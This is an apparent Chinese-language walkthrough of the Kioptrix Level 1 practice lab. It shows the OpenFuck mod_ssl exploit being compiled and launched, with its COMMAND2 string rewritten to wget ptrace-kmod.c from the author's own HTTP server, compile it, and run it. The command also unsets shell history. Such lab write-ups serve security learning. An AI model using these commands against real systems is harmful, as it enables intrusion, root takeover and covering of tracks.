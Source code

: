 这里获得的是一个普通用的权限的一个shell，我们的目标是root，根据上面返回的信息cannot remove \`ptrace-kmod.c': No such file or directory提示没有找到这个文件路径并给出了文件名，ptrace-kmod.c，查看一下源文件发现有一段有关的源码

```
#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"
```

目标主机无法从目标网站下载这个文件，我们将它下载到kali机器上面并开启一个python的http服务

{% embed url="https://github.com/piyush-saurabh/exploits" %}

```
┌──(root㉿kali)-[~/Desktop/test/KIOPTRIX:LEVEL1]
└─# wget https://github.com/piyush-saurabh/exploits/blob/master/ptrace-kmod.c                 
--2023-06-16 03:31:44--  https://github.com/piyush-saurabh/exploits/blob/master/ptrace-kmod.c
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘ptrace-kmod.c’

ptrace-kmod.c                                                  [    <=>                                                                                                                                  ] 197.31K   292KB/s    in 0.7s    

2023-06-16 03:31:47 (292 KB/s) - ‘ptrace-kmod.c’ saved [202044]
                                                                                                                                                                                                                                          
┌──(root㉿kali)-[~/Desktop/test/KIOPTRIX:LEVEL1]
└─# python3 -m http.server 3333
Serving HTTP on 0.0.0.0 port 3333 (http://0.0.0.0:3333/) ...


```

```
#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"
将上面这段源码改成,把它默认的地址改成我们自己的下载地址
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://192.168.43.24:3333/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c -B /usr/bin; rm ptrace-kmod.c; ./exploit; \n"
```

重新编译一下攻击exp文件

<pre><code><strong>┌──(root㉿kali)-[~/Desktop/test/KIOPTRIX:LEVEL1]
</strong>└─# gcc -o exploit 47080.c -lcrypto

┌──(root㉿kali)-[~/Desktop/test/KIOPTRIX:LEVEL1]
└─# ./exploit 0x6b 192.168.43.222 443 -c 50

*******************************************************************
* OpenFuck v3.0.4-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************
